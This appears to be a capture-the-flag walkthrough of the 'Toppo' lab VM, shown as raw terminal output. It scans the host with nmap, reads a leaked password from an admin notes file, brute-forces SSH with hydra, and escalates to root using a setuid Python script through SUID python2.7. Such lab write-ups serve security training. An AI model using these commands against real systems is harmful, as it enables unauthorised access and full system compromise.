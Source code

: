 └─$ sudo nmap -sT -A -Pn -n  -p- 192.168.53.129
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 16:47 CEST
Nmap scan report for 192.168.53.129
Host is up (0.00051s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35811/udp6  status
|   100024  1          42644/udp   status
|   100024  1          45331/tcp   status
|_  100024  1          45897/tcp6  status
45331/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:87:3F:30 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.53.129

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.09 seconds



└─$ curl http://192.168.53.129/admin/notes.txt
Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .



└─$ hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.53.129
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-13 17:18:33
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking ssh://192.168.53.129:22/
[22][ssh] host: 192.168.53.129   login: ted   password: 12345ted123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-13 17:18:36


└─$ ssh ted@192.168.53.129
ted@192.168.53.129's password: 

ted@Toppo:~$ w
 10:13:35 up 31 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ted      pts/0    192.168.53.1     10:13    1.00s  0.03s  0.00s w
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount




ted@Toppo:~$ cat test.py 
import os
os.setuid(0)
os.setgid(0)
os.system('/bin/bash')
ted@Toppo:~$ python test.py 
root@Toppo:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),1000(ted)

